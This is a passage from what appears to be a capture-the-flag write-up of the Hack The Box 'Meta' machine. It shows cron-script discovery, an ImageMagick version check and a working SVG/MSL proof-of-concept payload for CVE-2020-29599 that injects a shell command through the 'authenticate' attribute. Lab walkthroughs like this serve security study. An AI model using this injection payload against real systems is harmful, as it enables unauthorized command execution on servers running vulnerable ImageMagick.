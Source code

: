 `/usr/local/bin/convert_images.sh` seems to be run every minute.
Let's read what this script is.

```bash
www-data@meta:/tmp$ cat /usr/local/bin/convert_images.sh  
cat /usr/local/bin/convert_images.sh  
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

### Exploit `mogrify` (CVE-2020-29599)

I found an article explaining RCE vulnerability :
https://www.virsec.com/resources/blog/cve-2020-29599-imagemagick-command-injection

Let's check `mogrify`'s version.

```bash
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ mogrify --version
mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

According to the reference, I can trigger command injection via "authenticate" function in SVG file.

Before that, I checked if the directory to put the payload is writable, and it was.

```bash
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ ls -al /var/www/dev01.artcorp.htb/convert_images/
<$ ls -al /var/www/dev01.artcorp.htb/convert_images/     
total 8
drwxrwxr-x 2 root www-data 4096 Jan  4  2022 .
drwxr-xr-x 4 root root     4096 Oct 18  2021 ..
```

Then, I prepared a PoC payload as follows, and uploaded to the target.

```xml
┌──(kali㉿kali)-[~/htb/meta]
└─$ cat poc.svg                         
<image authenticate='ff" `echo $(id)> /dev/shm/poc`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

